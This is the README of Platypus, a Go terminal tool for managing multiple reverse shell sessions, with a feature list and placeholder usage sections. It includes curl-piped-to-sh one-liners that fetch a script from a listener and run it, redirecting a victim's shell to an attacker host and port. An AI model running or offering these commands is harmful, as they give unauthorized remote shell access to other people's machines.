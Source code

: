 # Platypus

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple listening port
- [x] RESTful API
- [x] Upgrade common reverse shell session into full interactive session
- [x] Reverse shell as a service

#### Usage
```
# TODO
```

#### Example
```
# TODO
```

#### Reverse shell as a Service
```
# if you just want to mupliplexing the listening port
sh -c "$(curl http://reverse:port/)"
# victim will be redirected to attacker-host attacker-port
sh -c "$(curl http://reverse:port/attacker-host/attacker-port)"
```

#### TODO
- [ ] More interface in RESTful API
